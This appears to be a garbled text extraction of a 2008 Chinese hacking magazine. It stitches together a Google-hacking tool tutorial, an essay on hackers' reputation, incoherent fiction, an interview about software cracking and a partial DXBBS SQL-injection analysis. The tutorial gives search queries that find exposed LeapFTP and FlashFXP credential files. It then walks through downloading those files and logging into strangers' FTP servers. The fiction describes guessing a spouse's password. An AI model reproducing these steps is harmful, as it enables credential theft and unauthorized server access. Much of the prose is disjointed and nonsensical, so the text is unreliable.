

我们从中随便选一个目录看下，那就是最后一个吧，web server detection。从字面上的意思就可以看出是关于 Web 服务器的，有 71 个多关键字，如图3所示。随便点击其中一条，便会在右边的框里显示其具体信息，如图4所示。接下来就是最有效的时候了，我们把选中的关键字“About ...”Mac OS Personal Web Sharing 利用起来进行搜索，效果如图5所示！接下来大家应该知道怎么做了吧？

这个工具的另一个特点就是提供对指定网站的扫描。我们只需要在“host”处填上主机域名，然后选择左边的关键字，该工具就会扫描该网站是否存在此关键字，用起来非常方便，而且还可以批量扫描。

比如我们要对 www.cctv.com 进行扫描，如图6所示，结果一目了然！真是个好工具，呵呵！





### 二、攻击实例

前面了解了这个工具，我们再来实际深入地操作一下吧！我们这次用到的关键字在目录 files containing passwords 下，关键字为：LeapFTP intitle:"index.of/" sites.ini modified。

看看 Google 的效果，如图7所示。




然后便打开了一个网站，我们下载它的 sites.ini，接着在本地电脑上安装一个 LeapFTP，我们到相应的目录后覆盖对应的文件。打开 LeapFTP，选择“站点”->“站点管理器”，就会出来相应的 FTP 服务器。大家看我们的设置，如图8所示。

接下来当然是连接到服务器了，运气好的话，可以用来拿下……


整台服务器哦！大家看到了 LeapFTP，会不会再思维地想到 FLASHFXP 呢？我们只要把关键字换成 FLASHFXP intitle:"index.of/" sites.dat quick.dat modified，再来 Google 一下，找到链接下载它的 sites.dat 和 quick.dat 这两个文件，接下来的步骤和操作 LeapFTP 一样了，结果如图9所示。

总结：

其实这类工具的攻击效果还不止此，大家可以照着上面的关键字进行搜索，耐心点、思路放开点，会有意想不到的结果的。

编辑点评：

对于工具自然要大家分享哦！再进一步，应该让结果中的“站点一览表”清晰地出现在大家眼前，这样才算得上真正发挥了工具的威力。关于内容，当然应侧重于“黑客”上，介绍自己的研究吧。

## 黑客是可耻的？——谈黑客在国内的尴尬地位

“这是一个恋爱的季节……孤独的人是可耻的……”这是中国流行摇滚诗人张楚一首歌里的歌词，而真正的黑客也同样孤独，他们低调且乐此不疲，追求创新，开发出更优秀的系统。同时在我们这个圈子里，这个词的真正含义已被一些媒体与别有用心的人扭曲了，他们的言论让人觉得黑客是犯罪且可耻的。先来看看几个新闻标题与片段：

“据了解，‘熊猫烧香’的程序设计者李俊，每天收入近1万元，被警方抓获后，承认自己已经获利上千万元……”

《华科黑客掳工互联网》

“……由此带来的安全市场的动荡难以想像。随着黑客技术的‘普及’，以获利为目的的病毒、恶意软件、木马软件开始在互联网泛滥。据有关数据显示，2007年上半年承载的恶意软件数量达到14万，其中90%是以盗窃账号为目的的木马程序。”

《黑客产业链产值逾 2.38 亿元人民币》

“……有制造病毒能力的黑客，被称作实施者，在网络上最卖命。每个木马病毒的价值在数百到上千元不等，买家购得后就可以植入特定网站窃取网站使用者信息，这个动作称为挂马。有些黑客也为买家做挂马的服务。窃取邮箱、客户信息等，也是当前黑市里热门的工作，一个月几万元收入不成问题。目前比较受欢迎的是，贩卖 QQ 账号、网络游戏账号、木马程序可以盗取账号、窃取虚拟金币、盗窃宝物……因此一个漏洞就可以卖到几万元到几十万元不等……”

上面几个类似的新闻中无形中至少提到了这样几个词：金钱、挂马、盗号、黑客等。这就是国内的黑客在媒体前的形象。当然，这些报道在一定程度上存在一些夸张，但不可否认，这些现象确实存在于我们现在的网络生活中。网民的某些经历与媒体的大量渲染，使得黑客在国人的心目中就是盗号、挂马、制病毒、黑色交易为生，这是荒谬的。

关于黑客，其实早就有一个有点争议但很准确的描述：黑客是一种为寻求逻辑和挑战而痴迷于计算机的人。这个词适合用在那些为计算机着迷的人身上。另一个很好但有点狭义的描述是：即使他们有机会在海滩上度过几个星期，他们也会用沙子造出一台计算机，并写出整个操作系统和全部工具。真正的黑客是对程序敏感的人，只是想学习到更多的东西，或在寻找某些有趣的东西而不知疲倦。

黑客是一种不断挑战自身智力的人。而在我们这里，懂一点黑客技术的人往往在做什么呢？挂马、盗号、刷 Q 币、卖流量……有多少人愿意沉下心来静静研究自己喜欢的技术？无数人反复在各种论坛网站之间跳转，寻找一个可能的突破口，使用搜索引擎、WEB SHELL，挂上能用的木马。只要网络上有什么“玩意儿”能搞，马上就有人蜂拥而上，钓鱼的钓鱼，刷点击的刷点击，为赚钱而忙得不亦乐乎，这就是国内黑客圈的主流动向。

我们这里不是纯粹意义上的黑客，而是在谈那些懂一点黑客技术的人在干什么。这个阶段的他们，往往是黑客、黑色交易和广告的混合体。

为什么国外会有 MILW0RM 那样不停公布漏洞并且千辛万苦维护的网站，而国内更多则是广告与黑色交易为代表？国外的朋友就不是为了生存了吗？其实说到底还是一个心态的问题。国外大多数人是把黑客技术当作爱好甚至娱乐，可国内有几个人是这样想的呢？

事实上，这并不只是黑客圈才有的现象。在中国许多方面，我们都可以看到浮躁且急功近利的思维。一个典型的例子就是国内的流行歌曲、影视出版等，往往更强调速度而不是质量。中国这几十年的变化相当于欧洲几十年的变化，这么快的变化让大家很难找到从容沉淀的空间。


同时在我看来，黑客绝不是一种职业或者谋生的手段，只能是一个目标或者是一种信仰。黑客应该是生活的一部分，而不应该作为生存的工具。当黑客成为谋生的手段时，许多东西就变了。而国内的真实情况是，只要有任何新技术或其他门路，更多时候都会被用来获取利益。可以明显地感觉到，纯粹的技术交流越来越少，取而代之的是充斥着贸易交易与所谓培训。于是我们只能看到由无数 Oday 攻击程序，不断向下落实为木马、APP 攻击脚本和流量泛滥的低层网络，而很少有人在意网络后端，更不在意 DDoS 与诈骗的源头。许多黑客网站成为广告平台，人们打着技术的幌子去追逐金钱。最关键的是，当这一切变成习惯后，理想与激情就开始消逝。

在媒体的炒作与上面所说情况背后，其结果是黑客的形象在中国民间越来越脆弱，甚至有人把黑客比作网络流氓。中国政府对于黑客的态度和国外明显不同，这一类主流媒体上的新闻也可能在不断强化这种印象。


因为一些利欲熏心之人的欲求，使大众对黑客的误解越来越深，也到了不得不说的地步。或许笔者的着眼点还很小，但仍希望自己的呐喊能够激起一些人的共鸣与反思。只有更多的人能够正确理解黑客，我们国家的网络才会更健康、更安全地发展。

## 网际安全·黑客手册 2008.04——【黑八说】

## 窥杀

### 弯子

我们都在这个城市里。我在这个城市的 25 楼上班，这个城市有太多的 25 楼，所以我只是其中一个普通白领。我不漂亮，但绝对有气质，如女子一般的气质。

每天早上 7 点 30 分，我会摇晃着我高挑的身材，准时坐在办公桌前，头发一丝不苟，身着浅色的职业套装。

我的职务是广告设计，名片上方有清爽的刻印，上面只有一串阿拉伯数字，这足以证明我头脑正常和应酬得体。但这恰恰也体现了我的私密空间。在大家面前我是个职业女人，就如同大家在街上看到的很多明艳女子一样，自然统一。

现在我坐在咖啡座里等客户。考克斯是我名义上的男朋友，说“名义上”是因为他不是我心中理想的男子，但因为种种原因我们当然还要在一起。他可能知道我对他的感情不太浓，所以这段时间我正在想办法温和地结束。而我现在对抒情也没太大兴趣，存在感撞得飞快。

我穿着第一条黑丝边长裙，上开口可以看见些许上身与南半球的边缘，下面则足以让对着我勾勒幻想的人想入非非。再配上我俯瞰的眼神，浑身上下写满了诱惑。

我等了很久，一杯咖啡已经见底，站起身打算出门，迎头碰上我那姗姗来迟的男朋友。他一贯绅士，在公众场合不会故作幽默地拉扯我。这次他匆匆和我打了个招呼，而我对上他的眼神时，瞬间看见那种紧张和闪烁。

我回到家，直接走进厨房开电脑，顺便拿了一支烟。天涯有很多马甲，我可以是男人也可以是女人。天涯上有一种帖子叫“电话情缘”，因为一个打错的电话而聊上一晚上的故事。我曾在网上搜索以及在电话里感受人的听觉，于是我给一个号码发了短信。刚拨上电话时，手机显示有一条新信息，号码是外地的。我平时不会理会这种信息，可那天鬼使神差地回了一句：“小梅，你找谁啊？”

信息很快就回了过来：“谁小梅呀，你叫我叔叔还差不多。”

呵，有意思。想着想着，自己有点怯意，又拿起电话，取消加拨。

“来劲了：不叫你小梅咱叫啥？这年头连朋友号码都记错？”

那边很快回了次流行表情：“抱歉，不是故意的，要真说起来，算我认错。”

稍等了一会儿，我也已经累了，就回道：“行，你就记着我这个故事情节吧，明天再见。”

那边几条短信一闪而过。唉，真有意思。走进屋，手机马上又响起，发现是一个她意想不到的车站号码。离家很远，当时拿着信笺照样犹豫。

“慢点，在干嘛呢？”

“怎么了，傻瓜，不是想我吗？”

“你好，我是他老婆，要有什么事可以跟我说。”

“呵，不好意思，可能是我发错信息了。”

“我可以确定你没有发错信息，因为这几天的信息记录一直存在手机上。”

突然，一阵眩晕，声音一下子变得空白。我终于弄清楚了，对方是有老婆的人，而且一个有家室的女子正在和我对话。我惊恐地挂断了电话。

我是有修养又漂亮的女子，我最持守的就是分寸，所以我不会在公共场所胡来。只是现在我在自己的家里，我躁动的对象也不过是寻寻觅觅。我不料这一类并不美好的姻缘，竟然这样轻易地撞到了我面前。

### 钢镚

朋友们都叫我钢镚，我不知道他们为什么这样叫，其实我觉得挺中性的，但也没关系了，怎么叫都只是一件小事而已，并不能说明我就是聪明。

这是我在这个世界生存的第 27 个年头。27 年前我和普通人一样出生。我开始是学财会的，后来自己开店，当了一个老板。去年的时候我刚刚用自己的积蓄娶了一个女人，让她做了我老婆，所以我现在的身份便是别人的老公。

因为我 180cm 的身高和我脖子上方那张方形面孔能散发让女性惊叹的魅力，所以我拥有过无数的女人，而且多数都是主动的一方。女人无一例外都比较现实，只有我老婆例外。对我来说，她们的爱存在于我皮相的外壳里，一旦得到后便会立刻丢弃我。当然这也许只是因为我们是在拿了红本本之后才真正了解彼此。

我曾经在她嫂子家，那个店开了好几个网站，发现一个叫某某的马甲是老板朋友发出的文字。随后，有个女子悄悄地点进了两个女友的页面，我终于想通了一切，原来一个小女子不过是靠着一点姿色维持她的美貌状态。

编辑点评：

文章讲的竟然是一个事件。有段时间，世界上最大的开源软件组织之一，Linux 平台软件的发布源 SourceForge 曾被封杀，以前经常“私存”并曾出现过不公开访问的问题，访问体验及服务困难一度成为大家要面对的大问题。现如今这篇文章从黑客攻击的角度出发，文中各种场景让读者认识了网络安全、网络黑客相关的一种现象，不要产生误解。

## 《黑山帖》——2008.04 非安全·黑客手册

那些文字拷入网情，谁知接着看下去有点不可收拾，每段文字看完便会明白一个道理，浅显，且极易做到。这是个有内容的人。我查了她的 IP，是一个网吧，停留在论坛的时间大约是晚上 8 点至凌晨 6 点左右。我很好奇，想知道她是做什么工作的，怎么可以通宵达旦地回着我的论坛帖子。这时向她身边人打听，接着昨天和她讨论人生情感。那时我正处在家人逼婚期间，和几个挚友谈了几句，于是乎，这个茶馆成了我约她的机会。

论坛我去了快半年了，日子安安稳稳，单单坐售班就会占去大部分时间。这些论坛越来越小，我开始流连茶馆，回家时也把帖子兜着。谁知道一回家就出了幺蛾子，老妈找了个女人在家专门蹲点，说好听点叫陪床，难听点叫逼婚。女人在我家住了两天，差一点就把相亲和婚姻促成了。她家和我家不在一个地方，下车后的行程在途中还要过上几晚，现在却还离家很远，自己奋斗才缓过一晚。正在赶场中，莫名想起来有个妹妹跑了下来。她要求来者不拒，不知安排在哪个城市。十几分钟后，她提了我去动车站，自己坐在旁边窗口上，解决了我大半份行程。

后来我忽然有点像在按键泡点，这一晚碰到了她来的城市，这点可是越来越少。因为什么熬夜的那种疲惫，似乎都从下班后的事情里散开了。近日来，在她们家的房屋里，她不时坐在角落里和我聊。其实她并不算特别熟悉，亲密也谈不上。可我们总是磨不开，难搞得像双方都在意人的标准化杂念。在我的心里，老是将这份愚笨藏不起来。她不时聊着，像是开了一点窗户，直到夜深，人都快忘了。只是第二天买早餐时，还是会想着找她。

开始于我工作时光太短，所以我只有每天一到晚上，才来电脑前面剪辑数据做输出。她总像顺着思想慢慢过来。女人总是乘车走嘛，灯光就在我耳边像轻轻呼吸的地方，不由得人无从开口。我便占去了她的一堆情绪。她不曾恋我，她堵在那里，在我想着美好梦境时，这种情况一久，便成了我的判定。她似乎也悄悄占了我清净的心，早已在对人时露出了梦。

日子久了，会觉得生活无趣。偶然当心中把电脑扔出去时，便看着她的计算机报表，顺便给久不联系的哥们发短信。后来还是会觉得无趣，就和她吃了个饭，说下车、关电脑，晚上出门走走。此前那个餐桌，只需要下一个意图，咱们便去吧。回家路上包点时间，打开短信，我问：“小孩，找谁？”听那口气还是个女孩子嘛。哼，挺好，哭也哭不出来，不知道对方来不来这学校。可被闹一下也还是可以的嘛。像说成了这种烦婆娘的事，不知道掺杂其中的是渴望，那一段文字让我觉得这次没什么意思，虽然在电话中也灵活说话，但也许那种只会把事情说大的本事是有的。

有了异性信息的话，老婆可就盯上了。她毫无征兆地把事情聊到我头上来。俺每天都可以收到陌生消息，这可真是怪事。俺伴着美女的信息感觉到了宁静和安稳。老媳妇在另一个城市一般，她的电话，她喜欢的人，别扭地都带着一点神秘。俺也不想忘了媳妇，不对，男人若是身在年轻年里，别说我媳妇来，就连痒痒都止不住想起点事。那几天我收到妻子的消息，打听孩子和媳妇，日子也能安稳了。

晚上的时候，她心里老觉得有什么在争执，奇怪啊，便动手去想查。大概我老婆拿走了手机，也翻走了那些短消息。刚想到这里，才知道赞叹可能翻车的，竟是自己。一个晚上，段落似的争吵切了语音，清早才拿着手机。再加于她，在网上说来说去，问老爷为什么把电话打爆了，而且还不曾想象。总有些突突直跳的心情。奇怪的是，老婆果然怀疑着我的根本，心里就使我愣了一下。原来自己的日子看着不错，其实心里也不是不疼，原来已经接近越来越难。

事实上证明我是个傻货，因为许久后老婆忽然从网上看到短信的蛛丝马迹，吓我说，感情如戏的女子，可她有个学生住的校园中，不让人见我的人。整道老婆不好管，她该知道这事了，回来看有没有陌生号码发上的短信，说明她应该上手了，面对对方也就不客气了。

那女人是不是骗我，我是不知道了。但是老婆问她时，那个很浑的大脑子，因为她知道她网络日记的密码，竟左右联系上了。我稍微利用社会工程学，把她重要的几个数字组合了一下，OK 了。进去之后，发现里面全是对我的不满和发泄。她在我面前一下间像是发了疯似的，原来她早就在承受一种压抑。此前只知道她管着我的电脑，却不知道她也在向网友倾诉绝望。终于我看到了那些让我眼泪打转的心情，她终于感到了一个已婚女人的忧愁，而我也早已心痒难耐。

## 窃窃

凭心情做事的女人，这就是我对自己名字的解释。从开始接触网络一直到现在，无论在那个地方，一直用这个名字，未曾更改。长相平平，个性平平，普通得不能再普通。少妇的成长经历和工作，淡然无波澜。偶尔写些点点滴滴，抒情心情和生活，倒也自得其乐，百般惊惶。

27 岁那年冬天，我为她曾拍的一堆事情在婚后草草当小事办了。只为一句：我发现，我老了，我不再相信。那个女人总是经历了那么长时间的心理历程。三个月的时间，两个成熟的男女，一场婚姻里深或浅的小问题，这时不应该再放任了，也开始像感情戏了。想起这些种种，似乎觉得生活亦不过如此，他开始有了自己的意义，还想小心做好人。

他抱着我。

我想起身。

发现我挣脱不了他的力度。

他给了我空间。

是一手的距离。

想着那时候的自己真是矫情，一段话也能写出这么多杂七杂八的情感。现在天已亮，又要上班。他偶尔让我坐车时深思，似乎总会制造些好处。我回到公司，对着个简短的字句发呆。平静时，似乎最怕也最容易出事，今天便合乎了离鸿飞的字迹……

有些后来的人更难理解。男人，为此她必然再等一段，明白他的数字和住着的情感。我想，感情就是一个人精神上的许多片段，连我们到房间里赶着拥抱，都像是生生简单地走一遭。嗯，嗯，等会儿突然想起家里的他，才会让我们整个卡片上的人都不知道谁朝向谁。那就是她的守候，恐怕也有过去甚至像是人间的意味，这也许是未来的旧意吧。

“老婆，一路顺利吧。”

“还行。”

## 采访 DCM——kvliz

86 有约笔记

大家好，我是10086，从开始做有约采访到采访对象，不知不觉也几个日子过去了，但是未知可见的是第三次上采访。这一次我们将采访到 DCM 组织的 leader——kvliz。可能新手会很陌生，但是对于一些一线的人来说，应该是很熟悉了。kvliz 所建立的 DCM 组织，曾经是为破解组织服务的，专门收集一些防攻击工具和攻击平台，讨论仅仅在一间房间的事情，但结果发现破解无所不能，这种影响力也显现出来。由于是亲自打工，kvliz 能够切实分析并找到出击之本，更让许多公司印象深刻。这里必须提到背后的发展方向和现实的影响。今天就让我们一同来看看这次采访吧。

10086：你好！很高兴能接受本刊的采访，开始前能否跟大家简单介绍一下自己与您所建立的 DCM 呢？

kvliz：你好，我就是常说的逆向工程爱好者，目前在某单位负责网络安全。近几年跟兄弟们出于个人的兴趣，建立 DCM 的想法是从各位同学和一个交流的场域逐渐发展起来；我们大家都是以网络安全为主题，DCM 中有各类线下交流会，安全论坛 Dark Communication Meet，属于比较核心的组织。比如说 CCG、IPB、BCG、DFCG、FGC 等，经过我们一个组织的验证可以申请加入，尤其是 DCM 发表论坛 PM 版。

10086：目前对 DCM 有什么计划没呢？

kvliz：暂时没有什么好的计划，维持正常的交流就可以了。

10086：当前是否因为什么采用 DCM 论坛呢？

kvliz：DCM 的论坛那叫持续展开论坛，两个论坛结合起来没有阻力。寻求日常特别鼓励各种轻量的爱好、工程从 0 到 1 的其他运作。现在 DCM 论坛主要是从各地、从各类资源里找东西，所以说参加交流，提出问题和提出困难，而不是依赖论坛。

10086：当初是如何走向逆向之路呢？

kvliz：年轻的时候有一些迷茫感，也不知道被什么影响，自己才会选择这一样的东西，自此也就不意外了。当时回想每周试着破解些新东西，后来又获得了大量的启发，在电脑中玩 pctools 之类的工具，简单来说也就是一种兴趣。

10086：什么是软件的逆向工程？

kvliz：逆向工程这个概念，简单说就是通过许多转换与处理，得到与功能相关的各种信息。软件的逆向工程就是通过对软件的分析和研究，从软件中找到实现的代码（汇编代码），甚至某些程序的设计思路，从中了解程序运行的过程和原理。

10086：你认为逆向工程合法吗？

kvliz：逆向工程合法性应该从不同的角度去看。逆向工程本身就是发掘软件或系统角度并加以使用的技术，它在一定程度上主要在研究目标与用户端平台的两者间进行对抗；在讨论某些软件系统的隐蔽攻击行为时，逆向工程也具有寻找更广泛技术用途的意义。

10086：当前不少人热衷于通过逆向技术学习，你怎么看待这一现象呢？

kvliz：热衷于掌握这类技术的朋友就是拿来好好看待，有热情、有动力，这是件好事。学习这项技术就不可避免地要了解很多东西，很多东西只要能有分析心，也会为将来成为高手打下基础，尤其是计算机基础。

10086：学习逆向是否也和黑客一样，体验着很“酷”的生活呢？

kvliz：这不只是黑客的生活，其实研究这个也没有那么潇洒，也是一个辛苦的事情。有的软件也会被路径所利用，软件也会为了平时而被搞出来，甚至危害到许多人的安全，当然不一定黑客就会做违法的事。

10086：对于逆向初学者，你觉得有什么建议呢？

kvliz：新手在入门学习、进入这个圈子的时候，基础和方向有很多种，要是有耐心，系统地认识，建立正确的知识体系是重要的，可千万不要盲目学习，不然可能会有坏的影响。这样系统学习、一步一步来为好。

10086：现在有些人是带着商业目的学习的，你是如何看待商业破解呢？

kvliz：我认为存在就是合理的。软件过于昂贵、学习成本高、市场和企业的需求很大，个人从软件中更多需要生产性知识的应用，所以会出现破解。拿一些东西去分享是肯定不好的。

> “你当我还是那年被你一块钱骗到手，还刚刚恢复的复古姬姬。”
>
> “我这不是把心给你的，你要万一有个什么的，我不得受苦受死呀。”
>
> “你是怕我去受小番茄，才打扫卫生吧。”
>
> “那是，你要是离了我去，我就不会赔死呀。”

微博里提到他，刚好看到了胡话，有几分怕他怕的，之前年会什么人也看过，不过也真是令他苦恼不少，总有几分怕他，也不敢出手。可是到现在他是真的想明白了，留得青山在，不怕没柴烧。

回到房间，把笔记本和笔拿到外面的书桌边，按下插头开始照明，明天回去，不再能提供了。手机有些疲倦中，他就慢慢地睡去，不算是李二姐还是与他作伴。原来走出去的精神在外面正准备办成多项任务，结果头上发胀，身上还有点微热，后来他又慢慢睡去。他醒来以后，见到一个清爽的日头，也终于按捺不住对这部分琐事的烦躁，决定把主意讲给自己听，最后，果然不敢过多地想了。看完所有的知识点，明白了一个看不清楚起步往哪去的人，只有努力做、打发去，想不通的都要试上一段，最后都会明白的。

## 编辑点评

这是一次很大构文档中夹杂着成人采访的小文章，文中有很多让人看起来恍惚的语言和修辞，可谓是将社会工程学，与此同时和不同语言的片段混杂进小刚的《手札》里。

## 【新闻缝缝缝】←2008.04 非安宝·黑客手册

10086：我想有很多软件作者也会苦恼自己的软件经常被破解，对软件作者来说，你有什么好的安全建议呢？

kvliz：我理解那种作者的苦恼，我本身也不做成发布或破解的行为。但是有成就感的事一定要有，最起码我讲的软件有很多人在使用；同时破解也会给你带来点击和市场评价。所以从平常的研发角度和防御角度，应该怎么做出防护？不要盲目地使用第三方控件的加密模块，有很多破解者也熟悉这些软件的防护方法，例如：RSA、CRC、通用算法，最好使用 keyfile 或……

10086：最后我想一定有很多朋友想与你联系，共同探讨软件安全或者内存执行的，可公布一下你的联系方式吗？

kvliz：关于个人信息我不太通过公开渠道暴露，我的朋友可以私底下联系我，网站：http://www.crackunion.com/。

### 采访后记

DCM，一个曾经神秘的组织，我们现在认识的人很少了吧。所有人都想知道怎么走进这个组织，然而现实中花费太大。可见，虽然 DCM 成员并不常见，但是是必需的。当 DCM 组织这类软件入行的师傅，他们还真在一线中造出很多优秀的软件；他们不仅是大多数开发语言中真正的聪明人，也有一部分是黑暗中的天使。通过这次采访，发现 kvliz 是一个很酷的人。开始这么为社会做贡献，又接触到整个过程是什么样的服务、忙时，下一次将会是哪里更难比？

## 从本文你可以学到：

- .net 应用程序安全性解析
- dxbbs 漏洞分析和利用

首先摘取一段来自官方网站的介绍，DXBBS V8.1 论坛系统为界面最新主打，采用 C# 技术开发的一个 BBS 论坛系统。内核程序高度集成，采用高速数据库模块与缓存机制，使得系统的运行速度成为基础。程序对所有参数进行严格过滤，对 cookies 采用了特殊加密处理，保持系统具有高度的安全性。

鉴于国内对于 ASP 程序的安全性研究得比较多，本人最近也在关注一段来自国外的东西，下载了官方的程序看了一下，发现一些严重的问题。而 .NET 这种架构与传统的 ASP 程序在安全上没有太大的不同，于是试着谈谈这对于 .NET 程序应用安全的看法，高手路过。

那么什么是 .NET 呢？.NET 作为新一代 C# 开发的个人应用技术，将使微软极力打造的软件网络时代不再仅适用于传统的个人计算机，而且能够构建完整功能并接触到新设备的未来发展。微软也一直将它定义为：Steve Ballmer 把它定义为：.NET 代表一个集合、一个环境，一个可以作为平台支持下一代 Internet 的可塑结构。

操作，所以我们对于 .NET 的程序，一样只要关注本质上的东西，就可以来查找它的安全漏洞了。

dxbbs 没有提供开发代码和开发文档，我们需要用 Reflector 将下载回来的 bin 目录下的 dll 反编译。反编译很简单，用 Reflector 打开 dll 文件，随后就可以像在浏览器里边一样来查看源码，通常可以从中找到一些很隐蔽的地方，比如修改数据库连接字符串、查询条件等等。dxbbs 是用 C# 编写的，数据类型需要明确分配，如果定义的变量类型有时出现不一致的情况，那么就很有可能造成程序错误。大量的绑定变量和数据处理机制也会给我们提供一些便利。

如果定义中某些变量出现数据类型异常，或者某些字段长度溢出，会影响到程序处理。如果数据类型转换不当，也会触发 SQL 注入。这种漏洞在 .NET 中比较难以察觉，但在后台数据库访问过程中仍然存在。对于引起的 SQL 注入问题，可以通过对输入参数进行严格过滤、使用参数化查询来缓解。最后在实际的测试中发现，如果提交内容包含特殊字符或超长字符串，程序可能会出现异常，从而暴露出更多细节。

## 非安全性课堂手册 2008.04→【新词条练习题】

答题原因，还是不能完全放弃空字符串拼接这种方式。所有的数据库查询都作为数据驱动的数据库提供程序（IDbDataProvider）与 FromProvider.cs 在一起，在这里我们可以看到有功能的底层 SQL 实现。根据上面的分析，我们需要把字符串作为参数，或者可能含有字符串的引用类型变量，这样才有一点点 SQL 注射的希望。另外我们还需要有权限执行这个操作才行，后台的暂时就不考虑了。查看 CrashReply 这个方法的实现：

```csharp
public static void CrashReply(string ReplyID, DataProvider dp)
{
    if (!(ReplyID != string.Empty))
        return;
    foreach (string str in ReplyID.Split(new char[] { ',' }))
    {
        dp.ExecuteNonQuery("Delete From " + dp.TablePrefix + "Forum_ReplyRecycle Where ID=" + str);
        dp.ExecuteNonQuery("Delete From " + dp.TablePrefix + "Forum_Reply Where ReplyID=" + str);
        dp.ExecuteNonQuery("Delete From " + dp.TablePrefix + "Forum_Vote Where ReplyID=" + str);
    }
}
```

这里传入的参数就是 string ReplyID 类型，并且后面的都是作为 str 类型处理的。那么我们在逻辑上找找看是怎么样会利用这个方法吧。Forum.cs 有对这个的调用，调用的方式在 CrashReply，最终反映在用户操作上是在 admin_replyRecycle.cs 里的 DeleteButton_Click 方法。但是我们看到传入的 string ReplyID 是从 Requests.GetForm("SelectID") 过来的，在程序自定义表单参数的填写中，对方在 GetIntFrom.Com 里对字符串的格式做了检查，必须为以 , 分割的数字类型。大家可见有很详细的方法了。了解程序大致的数据读入流程，也可以通过伪造表单和 HttpContext 里的内容，后面有这样的例子。可以说这里需要有管理权限才可以操作的页面，所以无法利用。根据这个思路我们可将所有底层的操作大致试过一遍，最后，我把目标锁定在了 AddUpload 这个方法上。

```csharp
public static int AddUpload(UploadInfo upload, DataProvider dp)
{
    int num = 0;
    string commandTxt = "Insert Into " + dp.TablePrefix + "Forum_UploadFile (BoardID, TopicID, ReplyID, FileName, FileSize, UserID, UserName, Types, FileType, AddTime) Values (@BoardID, @TopicID, @ReplyID, @FileName, @FileSize, @UserID, @UserName, @Types, @FileType, @AddTime)";
    OleDbParameter[] pt = new OleDbParameter[] {
        new OleDbParameter("@BoardID", 3),
        new OleDbParameter("@TopicID", 3),
        new OleDbParameter("@ReplyID", 3),
        new OleDbParameter("@FileName", 0xc2),
        new OleDbParameter("@FileSize", 3),
        new OleDbParameter("@UserID", 3),
